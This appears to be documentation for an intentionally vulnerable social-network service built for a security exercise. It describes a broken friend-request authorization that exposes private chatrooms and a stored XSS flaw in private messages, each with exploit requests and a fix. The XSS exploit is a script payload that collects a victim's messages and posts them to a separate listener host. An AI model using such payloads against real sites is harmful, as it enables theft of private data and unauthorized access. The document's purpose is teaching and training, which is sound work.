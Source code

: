 Service documentation
======================
# Service Structure
asocialnetwork is a javascript service that uses the following technologies:
- Node.js
- Express
- MongoDB
- Mongoose
- EJS
- Bootstrap
- jQuery
- NGINX

![Service Structure](Service%20Structure.svg)
# Functionality
- Chatrooms
- Private Messages
- Friend Requests
- Profiles
- Posts
# Vulnerabilities
## Access to private chatrooms
### Hashing of chatroom names
- Category: Misconfiguration
- Difficulty: Easy

Profiles list all chatrooms a user is a member of. This includes private chatrooms. Using the name of the chatroom, it is possible to join the chatroom.
### Friend requests
- Category: Authorization
- Difficulty: Easy

Friend requests can be sent or accepted by anyone. This allows anyone to view any profile and see which chatrooms they are a member of.
### Exploit
    post http://localhost:3000/friends/requests body: {"userName":"foo", "partner":"bar", "status": "send"}
    post http://localhost:3000/friends/requests body: {"userName":"foo", "partner":"bar", "status": "accept"}
    get http://localhost:3000/profile/foo
    get http://localhost:3000/chatrooms/secret
### Fix
Add check that the user sending the request is the same as the userName in the request body. And check that the user accepting the request is the same as the partner in the request body.
## Cross-Site Scripting (XSS)

- Category: XSS
- Difficulty: Medium

The new private message popup is vulnerable to XSS. The message is not sanitized and can be used to execute arbitrary JavaScript code.
### Exploit
    post http://localhost:3000/messages body: {"recipient":"foo", "message":"<script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:6452/', {method: 'POST', body:'username=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>"}
### Fix
Sanitize the message before displaying it.


